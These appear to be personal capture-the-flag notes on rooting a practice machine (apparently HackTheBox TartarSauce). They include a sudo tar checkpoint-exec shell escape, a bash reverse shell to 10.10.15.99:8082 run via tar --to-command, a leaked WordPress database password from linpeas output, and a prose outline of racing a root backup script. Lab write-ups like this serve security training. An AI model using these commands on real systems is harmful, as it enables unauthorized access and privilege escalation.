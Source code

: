 * Could use either:

```
sudo -u tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
-----
echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.15.99/8082 0>&1' > a.sh
tar -cvf a.tar a.sh
sudo -u onuma tar -xvf a.tar --to-command /bin/bash
```

## onuma -> root

* no sudo -l, nothing on crontab
* Lets look around those other directories I never got into. Could look more but nothing seems helpful. And a few of the robots directories don't even exist. Another troll move. 
* Netstat shows local mysql. Access denied w/o password. It's not running as root either. 
* Run linpeas, interesting things

```
-rwxr-xr-x 1 root root 1701 Feb 21  2018 /usr/sbin/backuperer
lrwxrwxrwx 1 root  root     9 Feb 17  2018 shadow_bkp -> /dev/null
define('DB_NAME', 'wp');
define('DB_USER', 'wpuser');
define('DB_PASSWORD', 'w0rdpr3$$d@t@b@$3@cc3$$');
define('DB_HOST', 'localhost');
```

* Connecting to mysql just gives wpadmin, probably nothing helpful. 
* Try to run backuperer - gets mad that I can't write to /var/backups/onuma_backup_test.txt
* I can read the backuperer script
* It waits for 30 seconds, so just intercept and change the log so that it reports the diff of two files. One of which is root. 
* Tried to just change the files in the www directory or write. Won't let me. I can change things in tmp/cache and symlink. Maybe that'll work. Wait for it to run again and then check the dir. The file shows up but it just says broken link so I guess that doesn't work. Have to exploit it before it writes. 
* Good example of automating and w/ one liner: https://0xdf.gitlab.io/2018/10/20/htb-tartarsauce.html#site
  * and I also just copied it so...

# Lessons

* my original search didn't find it because I didn't have blank extensions checked on dirbuster. It wasn't finding the directory because it returns a 404 on the index because it's broken. 
* WPScan aggressive. 

